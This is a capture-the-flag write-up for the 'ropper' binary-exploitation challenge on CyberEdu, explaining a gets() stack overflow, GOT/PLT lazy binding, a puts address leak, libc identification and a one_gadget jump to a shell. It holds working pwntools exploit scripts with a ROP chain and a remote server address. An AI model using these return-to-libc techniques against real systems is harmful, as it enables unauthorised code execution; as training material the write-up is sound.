# Write-up: 
##  ropper

**Category:** Pwn
**Platform:** CyberEdu
**URL:** `https://app.cyber-edu.co/challenges/55a544a0-7f21-11ea-8a5d-9b7c67823f77`

---

I extracted the archive and got an executable. I ran some commands to get some informations:



The executable is using external libraries(like libc) that are loaded in memory at runtime

`/lib64/ld-linux-x86-64.so.2` is the dynamical linker(his task is to load the required libraries before the program starts running)


`stripped` means that the debugging symbols were elimintated from the .elf


The `checksec` command tell us that:
    -> `No canary found` the executable is vulnerable to buffer overflow attacks on stack to overwrite RIP(or EIP on 32 bits architecture)
    -> `NX enabled` this protects memory segments like heap or stack from executing shellcode injected on stack or heap
    -> `No PIE` If PIE is activated, the adresses of the functions will change at every run(ASLR). In our case, the base adress of the .elf will remain the same

With the help of `ghidra`, I found out that the vulnerability of this challenge is determined by the `gets` function:



The gets function doesn't verify if I typed only 255 characters and it will overflow.
This is a classic `return-to-libc` CTF challenge. I have to overflow the return address on the stack with something that will gain me a shell on the remote server.



I put a breakpoint after the gets call in gdb with "A"*12 input. As we can see, we have to create a payload with 256+8 null bytes and then 8 bytes to override the return address "0x4006eb"

I found the right offset:



NX is enabled, so I can't inject shellcode on stack and execute it. 

However, the executable loads the LIBC library dynamically at run time(it contains functions like system()):



We can't hardcode the address of `system` or `/bin/sh`.

Solution: Calculate libc base address

I have to leak the address of a function of libc that is used inside the executable(`puts`). Then, use the leaked address to calculate the base address of libc.

Before jumping in finding the base address, I need to explain 2 fundamental concepts:

## The GOT (Global Offset Table)
``` bash
-> The program contains a table(GOT) that holds the runtime addressed of functions in libc
-> When a program first starts, the GOT entries are initially empty
-> Once a function is called for the first time, its actual address(from libc) is resolved and stored in the GOT
-> All future calls to that function will use the stored address directly

```
## The PLT (Procedure Linkage Table)
``` bash
-> The PLT is a series of small code that handles the dynamic linking process
-> When a libc function is called for the first time:
    1. The call goes to the PLT entry
    2. The PLT checks if the GOT entry is resolved
    3. If unresolved, the dynamic linker is called to find the actual address of the function in libc
    4. The address is stored in the GOT for future use
-> This process is called "lazy binding" because addresses are only resolved when needed

```

I used ghidra to find the address of `puts@plt`:



`0x004004e0` -> puts@plt

This is the small code that the calls the dynamic linker to get the actual address of puts from libc



This is the dynamic linker function



This is where the actual address of puts is stored in GOT

`0x00601018` -> puts@got


Let's find the gadget address:



`0x400763` -> the gadget address

I also need the address of where the program starts so I can restart and send the next stage of my ropchain:

`0x400679`  -> starting address


Now, I will write a script to find the puts address at runtime(gdb is not using ASLR, it s fixed):

``` py

from pwn import *

my_proc = process("./pwn")

my_proc.recvuntil("Are you a good ropper?\n")

start_point = 0x400679
puts_plt = 0x004004e0
puts_got = 0x00601018
gadget = 0x400763

payload = b""
payload += b"A"*264
payload += p64(gadget)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(start_point)

my_proc.sendline(payload)

puts_addr = my_proc.recvline()[:-1].ljust(8, b"\x00")
puts_addr = u64(puts_addr)
log.info('puts address: ' + hex(puts_addr))

my_proc.interactive()


```


I also need the puts offset so I can finally find the libc_base which is `puts_address - puts_offset`

# NOTE: The libc address must end with 000 !



Now I had to find if the server is using the same libc library and guess what? It doesn't! Amazing...

I replaced `my_proc = process("./pwn")` with `my_proc = remote("34.185.184.46",32581)` and the result ends with '690':





The first 3 libraries are 32-bit.
The other ones have the same offsets for system, puts so I can pick anyone from the rest of the list.

After I Downloaded it, I had to modify the LD_PRELOAD env variable, but also the linker because the one I was using was not compatible with this libc version:

``` py

from pwn import *

linker_path = "./ld-2.23.so"

env = {"LD_PRELOAD": "./libc6_2.23-0ubuntu10_amd64.so"}
my_proc = process([linker_path,"./pwn"], env=env)

my_proc.recvuntil("Are you a good ropper?\n")

start_point = 0x400679
puts_plt = 0x004004e0
puts_got = 0x00601018
gadget = 0x400763

payload = b""
payload += b"A"*264
payload += p64(gadget)
payload += p64(puts_got)
payload += p64(puts_plt)
payload += p64(start_point)

my_proc.sendline(payload)

puts_addr = my_proc.recvline()[:-1].ljust(8, b"\x00")
puts_addr = u64(puts_addr)
log.info('puts address: ' + hex(puts_addr))

my_proc.interactive()


```

Now, the local program is showing the same as the remote address.


The offsets for:
`system` => `0x045390`
`/bin/sh` => `0x18cd57`
`puts` => `0x06f690`

For this challenge, I will use `one-gadget`, a special address in libc that once I will jump to it, I will gain a `/bin/sh` shell, but there are some constraints:



I will go with the first option and its constraint is : the value at [rsp+0x30] should be 0 (NULL).

I modified the  script by adding the second payload:

``` py

# exploit number 2

one_gadget_offset = 0x4526a
one_gadget_address = libc_base + one_gadget_offset
log.info('One gadget address: ' + hex(one_gadget_address))

my_proc.recvuntil("Are you a good ropper?\n")

payload2 = b""
payload2 += b"A" * 264
payload2 += p64(one_gadget_address)


```
And there it is the flag!


